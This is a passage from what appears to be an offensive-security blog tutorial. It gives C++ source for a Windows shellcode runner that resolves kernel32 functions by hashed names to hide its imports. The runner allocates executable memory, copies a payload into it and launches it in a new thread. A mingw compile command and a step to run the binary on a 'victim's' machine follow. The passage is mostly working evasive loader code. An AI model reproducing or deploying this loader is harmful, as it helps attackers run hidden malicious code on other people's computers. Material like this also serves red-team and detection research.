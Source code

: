 ```cpp

int main() {
  HMODULE mod = getKernel32(56369259);
  fnGetModuleHandleA myGetModuleHandleA = (fnGetModuleHandleA)getAPIAddr(mod, 4038080516);
  fnGetProcAddress myGetProcAddress = (fnGetProcAddress)getAPIAddr(mod, 448915681);

  HMODULE hk32 = myGetModuleHandleA("kernel32.dll");
  fnVirtualAlloc myVirtualAlloc = (fnVirtualAlloc)myGetProcAddress(hk32, "VirtualAlloc");
  fnCreateThread myCreateThread = (fnCreateThread)myGetProcAddress(hk32, "CreateThread");
  fnWaitForSingleObject myWaitForSingleObject = (fnWaitForSingleObject)myGetProcAddress(hk32, "WaitForSingleObject");

  PVOID lb = myVirtualAlloc(0, sizeof(my_payload), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = myCreateThread(NULL, 0, (PTHREAD_START_ROUTINE)lb, NULL, 0, NULL);
  myWaitForSingleObject(th, INFINITE);
}

```

As you can see, I used the same hash algorithm.    

### demo

Let's go to compile it:   

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -Wint-to-pointer-cast -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![injection](/assets/images/47/2022-04-05_02-15.png){:class="img-responsive"}    

and run (on victim's `windows 10 x64` machine):    

```cmd
.\hack.exe
```

